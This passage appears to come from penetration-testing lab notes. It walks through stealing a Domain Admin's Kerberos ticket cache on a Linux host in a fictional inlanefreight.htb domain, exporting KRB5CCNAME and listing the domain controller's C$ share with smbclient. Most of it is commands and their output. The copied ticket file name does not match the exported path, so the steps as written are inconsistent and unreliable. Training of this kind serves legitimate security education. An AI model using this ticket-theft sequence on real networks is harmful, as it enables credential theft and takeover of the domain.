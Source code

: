 ```sh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA
```

* There is one user (julio@inlanefreight.htb) to whom we have not yet gained access
* We can confirm the groups to which he belongs using `id`

```sh
id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

* Julio is a member of the `Domain Admins` group
* To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable

#### Importing the ccache File into our Current Session

```sh
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_HRJDux .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```
